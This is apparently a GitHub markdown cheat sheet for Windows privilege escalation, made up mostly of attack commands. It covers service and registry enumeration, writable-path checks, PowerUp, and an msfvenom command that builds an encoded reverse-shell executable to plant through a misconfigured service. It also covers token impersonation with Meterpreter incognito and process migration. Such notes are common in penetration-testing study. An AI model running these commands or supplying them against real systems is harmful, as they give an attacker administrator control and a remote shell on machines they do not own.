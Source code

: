 # Windows

# Windows Privilege Escalation

## Enumeration

- List installed products

```
wmic product
wmic product get name,version,vendor

```

- List services

```
wmic service list brief
get-service
wmic service list brief | findstr  "Running"

```

## Misconfiguration

- List unquoted services

```
wmic service get name,displayname,pathname,startmode
get-wmiobject win32_service | select name,pathname

```

- Find writable folders

```
.\\accesschk.exe /accepteula -uwdq "C:\\Program Files\\"

```

- DLL Hijacking
- Privileges

## PowerUp.ps1

- Dot source the script and launch checks

```powershell
. .\\PowerUp.ps1
Invoke-AllChecks
```

- Look for CanRestart=True and modifiable executable services
- Generate an exe payload with MSFVenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe

```

- Upload the payload and restart the service to get root shell

## Services misconfiguration

- list services image path

```
reg query hklm\\System\\CurrentControlSet\\Services /s /v imagepath

```

- try to write to every paths

```
for /f %a in ('reg query hklm\\system\\currentcontrolset\\services') do del %temp%\\reg.hiv 2>nul & reg save %a %temp%\\reg.hiv 2>nul && reg restore %a %temp%\\reg.hiv 2>nul && echo You can modify %a

```

## Token Impersonation

- check current user's privileges

```
whoami /priv

```

- Look for abusable privileges

```
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

```

### Search for local exploit using Metasploit

```
use post/multi/recon/local_exploit_suggester

```

### Meterpreter Incognito module

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid

```

## Links

---

### Guides

- [https://lolbas-project.github.io/](https://lolbas-project.github.io/)